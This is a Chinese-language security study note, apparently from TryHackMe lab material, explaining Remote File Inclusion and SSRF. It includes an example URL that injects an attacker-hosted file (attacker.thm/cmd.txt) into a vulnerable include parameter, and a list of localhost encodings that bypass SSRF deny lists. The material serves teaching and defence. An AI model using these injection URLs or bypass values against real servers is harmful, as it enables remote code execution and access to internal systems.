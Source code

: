 远程文件包含 ( RFI ) 是一种将远程文件包含到易受攻击的应用程序中的技术。与LFI一样，当对用户输入进行不当清理时，就会发生RFI ，从而允许攻击者将外部 URL 注入包含函数。RFI 的一个要求是需要启用allow_url_fopen选项。  

  

RFI的风险高于LFI，因为RFI漏洞允许攻击者在服务器上获得远程命令执行 ( RCE )。成功的RFI攻击的其他后果包括：

- 敏感信息披露
- 跨站点脚本（XSS）
- 拒绝服务（DoS）

#### RFI步骤

下图是成功的RFI攻击步骤示例！假设攻击者在自己的服务器上托管一个PHP文件http ://attacker. thm /cmd.txt ，其中cmd.txt包含一条打印消息  Hello THM。

```php
<?PHP echo "Hello THM"; ?>
```

首先，攻击者注入恶意URL，指向攻击者的服务器，例如 http : //webapp.thm/index.php ? lang = http ://attacker.thm/cmd.txt。如果没有输入验证，恶意 URL 就会进入 include 函数。接下来，Web 应用服务器将向恶意服务器发送GET请求以获取文件。结果，Web 应用将远程文件包含到 include 函数中，以在页面内执行PHP文件并将执行内容发送给攻击者。在我们的例子中，当前页面的某个地方必须显示Hello THM消息。

# ssrf 服务器端请求伪造 (SSRF) 漏洞

允许恶意用户导致 Web 服务器向攻击者选择的资源发出额外或编辑的HTTP请求。

要执行SSRF攻击，**攻击者可以操纵易受攻击的软件中的参数值**，有效地创建或控制来自该软件的请求，并将其定向到其他服务器甚至同一服务器。

## **SSRF的类型**

#### SSRF漏洞有两种类型：

第一种是常规SSRF(regular SSRF)，数据会返回到攻击者的屏幕。

第二种是盲SSRF漏洞(blind SSRF)，即发生SSRF，但不会将任何信息返回到攻击者的屏幕。

## 可能存在的位置

### 地址栏中出现完整的url时

### 表单中的影藏字段

### 某部分url

### url的路径

## 防御 

### **拒绝列表**

拒绝列表是指除列表中指定的资源或与特定模式匹配的资源之外的所有请求都被接受。Web 应用程序可以使用拒绝列表来保护敏感端点、IP 地址或域不被公众访问，同时仍允许访问其他位置。限制访问的特定端点是本地主机，它可能包含服务器性能数据或其他敏感信息，因此诸如 localhost 和 127.0.0.1 之类的域名将出现在拒绝列表中。攻击者可以通过使用替代的本地主机引用（例如 0、0.0.0.0、0000、127.1、127.*.*.*、2130706433、017700000001 或具有解析为 IP 地址 127.0.0.1 的DNS记录的子域（例如 127.0.0.1.nip.io）来绕过拒绝列表。

